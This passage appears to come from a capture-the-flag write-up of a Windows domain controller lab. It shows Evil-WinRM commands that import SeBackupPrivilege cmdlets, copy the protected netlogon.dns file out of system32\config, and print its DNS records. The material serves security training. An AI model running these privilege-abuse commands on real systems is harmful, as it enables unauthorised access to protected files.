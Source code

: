 ```bash
*Evil-WinRM* PS C:\Temp> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Temp> import-module .\SeBackupPrivilegeUtils.dll
```

```bash
*Evil-WinRM* PS C:\windows\system32\config> Copy-FileSeBackupPrivilege "C:\windows\system32\config\netlogon.dns" C:\Temp\netlogon.dns
*Evil-WinRM* PS C:\windows\system32\config> type C:\Temp\netlogon.dns
_ldap._tcp.return.local. 600 IN SRV 0 100 389 printer.return.local.
_ldap._tcp.Default-First-Site-Name._sites.return.local. 600 IN SRV 0 100 389 printer.return.local.
_ldap._tcp.pdc._msdcs.return.local. 600 IN SRV 0 100 389 printer.return.local.
_ldap._tcp.gc._msdcs.return.local. 600 IN SRV 0 100 3268 printer.return.local.
_ldap._tcp.Default-First-Site-Name._sites.gc._msdcs.return.local. 600 IN SRV 0 100 3268 printer.return.local.
_ldap._tcp.d3137589-2523-4e02-8c2e-98b4fa01e413.domains._msdcs.return.local. 600 IN SRV 0 100 389 printer.return.local.
c2a9b7bb-a190-4065-b4d6-f373b72005f0._msdcs.return.local. 600 IN CNAME printer.return.local.
_kerberos._tcp.dc._msdcs.return.local. 600 IN SRV 0 100 88 printer.return.local.
_kerberos._tcp.Default-First-Site-Name._sites.dc._msdcs.return.local. 600 IN SRV 0 100 88 printer.return.local.
_ldap._tcp.dc._msdcs.return.local. 600 IN SRV 0 100 389 printer.return.local.
_ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.return.local. 600 IN SRV 0 100 389 printer.return.local.
_kerberos._tcp.return.local. 600 IN SRV 0 100 88 printer.return.local.
_kerberos._tcp.Default-First-Site-Name._sites.return.local. 600 IN SRV 0 100 88 printer.return.local.
_gc._tcp.return.local. 600 IN SRV 0 100 3268 printer.return.local.
_gc._tcp.Default-First-Site-Name._sites.return.local. 600 IN SRV 0 100 3268 printer.return.local.
_kerberos._udp.return.local. 600 IN SRV 0 100 88 printer.return.local.
_kpasswd._tcp.return.local. 600 IN SRV 0 100 464 printer.return.local.
_kpasswd._udp.return.local. 600 IN SRV 0 100 464 printer.return.local.
_ldap._tcp.DomainDnsZones.return.local. 600 IN SRV 0 100 389 printer.return.local.
_ldap._tcp.Default-First-Site-Name._sites.DomainDnsZones.return.local. 600 IN SRV 0 100 389 printer.return.local.
_ldap._tcp.ForestDnsZones.return.local. 600 IN SRV 0 100 389 printer.return.local.
_ldap._tcp.Default-First-Site-Name._sites.ForestDnsZones.return.local. 600 IN SRV 0 100 389 printer.return.local.
return.local. 600 IN A 10.10.11.108
gc._msdcs.return.local. 600 IN A 10.10.11.108
DomainDnsZones.return.local. 600 IN A 10.10.11.108
ForestDnsZones.return.local. 600 IN A 10.10.11.108
return.local. 600 IN AAAA dead:beef::76
return.local. 600 IN AAAA dead:beef::7198:339e:f5c0:4190
gc._msdcs.return.local. 600 IN AAAA dead:beef::76
gc._msdcs.return.local. 600 IN AAAA dead:beef::7198:339e:f5c0:4190
DomainDnsZones.return.local. 600 IN AAAA dead:beef::76
DomainDnsZones.return.local. 600 IN AAAA dead:beef::7198:339e:f5c0:4190
ForestDnsZones.return.local. 600 IN AAAA dead:beef::76
ForestDnsZones.return.local. 600 IN AAAA dead:beef::7198:339e:f5c0:4190
```

The `Copy-FileSeBackupPrivilege` command was utilized to copy `netlogon.dns` to a writable directory, enabling its contents to be read.
